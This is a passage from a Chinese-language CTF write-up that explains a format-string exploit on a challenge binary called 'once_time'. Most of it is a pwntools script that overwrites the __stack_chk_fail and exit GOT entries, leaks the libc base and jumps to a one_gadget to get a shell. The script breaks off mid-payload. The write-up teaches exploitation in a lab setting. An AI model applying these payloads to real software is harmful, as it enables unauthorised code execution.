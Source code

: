 调试出来可以看到第一次输入位于第二次输入后的第六个参数，64 位下偏移就是 12。为了达到触发 `__stack_chk_fail` 的目的，我们还需要覆盖掉 Canary，位于第二次输入后的第三个参数处，故至少需要输入大于 24 个字符。read 总共读 0x20 个字符，我们这里也就读 0x20 个，以触发 `__stack_chk_fail`。

第二步利用 `read` 的 got 表将 libc 基址泄漏出来。然后在已知 libc 版本的情况下，第三步将 `exit` 的 got 表覆盖成 one_gadget。最后送个 `%p` 或者 `$p` 上去 getshell。exp 如下：

```python
#!/usr/bin/env python
#coding=utf-8
from pwn import *
# context.log_level = 'debug'
context.arch = 'amd64'
p = process('./once_time')
elf = ELF('./once_time')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
one_gadget_offset = 0xf1147

info('>>> REPLACE __stack_chk_fail WITH main <<<')
main = 0x400983
stack_chk_fail_got = elf.got['__stack_chk_fail']
p.recvuntil('input your name: ')
p.sendline(p64(stack_chk_fail_got))
p.recvuntil('leave a msg: ')
payload = '%{}c%12$n'.format(str(main))
payload = payload.ljust(0x20, '\x00')
print repr(payload)
p.send(payload)

info('>>> LEAK libc <<<')
read_got = elf.got['read']
p.recvuntil('input your name: ')
p.sendline(p64(read_got))
p.recvuntil('leave a msg: ')
payload = '%12$s'
payload = payload.ljust(0x20, '\x00')
print repr(payload)
p.send(payload)
data = p.recvuntil('\x7f')
print u64(data[-6:].ljust(8, '\x00'))
read_offset = libc.symbols['read']
libc_base = u64(data[:6].ljust(8, '\x00')) - read_offset
# libc.address = read - read_offset
success('libc_base = ' + hex(libc_base))

one_gadget = libc_base + one_gadget_offset
success('one_gadget = ' + hex(one_gadget))

info('>>> FMTSTR ATTACK <<<')
info('FIRST WORD')
info(hex(one_gadget & 0xFFFF))
exit_got = elf.got['exit']
p.recvuntil('input your name: ')
p.sendline(p64(exit_got))
p.recvuntil('leave a msg: ')
payload = '%{}c%12$hn'.format(str(one_gadget & 0xFFFF))#取最低的双字节并对齐
payload = payload.ljust(0x20, '\x00')
print repr(payload)
p.send(payload)

info('SECOND WORD')
info(hex((one_gadget >> 16) & 0xFFFF))
p.recvuntil('input your name: ')
p.sendline(p64(exit_got + 2))
p.recvuntil('leave a msg: ')
payload = '%{}c%12$hn'.format(str((one_gadget >> 16) & 0xFFFF))
```